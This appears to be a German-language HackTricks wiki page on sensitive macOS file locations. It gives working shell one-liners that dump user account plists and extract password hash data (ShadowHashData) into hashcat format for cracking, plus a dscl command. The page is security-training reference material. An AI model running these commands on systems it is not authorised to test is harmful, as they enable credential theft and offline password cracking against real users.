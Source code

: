 # macOS Sensitive Locations & Interesting Daemons

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>Support HackTricks</summary></details>
{% endhint %}

## Passwörter

### Schattenpasswörter

Das Schattenpasswort wird mit der Konfiguration des Benutzers in Plists gespeichert, die sich in **`/var/db/dslocal/nodes/Default/users/`** befinden.\
Der folgende Einzeiler kann verwendet werden, um **alle Informationen über die Benutzer** (einschließlich Hash-Informationen) zu dumpen:

{% code overflow="wrap" %}
```bash
for l in /var/db/dslocal/nodes/Default/users/*; do if [ -r "$l" ];then echo "$l"; defaults read "$l"; fi; done
```
{% endcode %}

[**Skripte wie dieses hier**](https://gist.github.com/teddziuba/3ff08bdda120d1f7822f3baf52e606c2) oder [**dieses hier**](https://github.com/octomagon/davegrohl.git) können verwendet werden, um den Hash in **hashcat** **Format** zu transformieren.

Eine alternative Einzeiler, die die Anmeldeinformationen aller Nicht-Dienstkonten im hashcat-Format `-m 7100` (macOS PBKDF2-SHA512) ausgibt:

{% code overflow="wrap" %}
```bash
sudo bash -c 'for i in $(find /var/db/dslocal/nodes/Default/users -type f -regex "[^_]*"); do plutil -extract name.0 raw $i | awk "{printf \$0\":\$ml\$\"}"; for j in {iterations,salt,entropy}; do l=$(k=$(plutil -extract ShadowHashData.0 raw $i) && base64 -d <<< $k | plutil -extract SALTED-SHA512-PBKDF2.$j raw -); if [[ $j == iterations ]]; then echo -n $l; else base64 -d <<< $l | xxd -p -c 0 | awk "{printf \"$\"\$0}"; fi; done; echo ""; done'
```
{% endcode %}

Eine weitere Möglichkeit, die `ShadowHashData` eines Benutzers zu erhalten, ist die Verwendung von `dscl`: ``sudo dscl . -read /Users/`whoami` ShadowHashData``

### /etc/master.passwd

Diese Datei wird **nur verwendet**, wenn das System im **Einbenutzermodus** läuft (also nicht sehr häufig).

### Keychain Dump
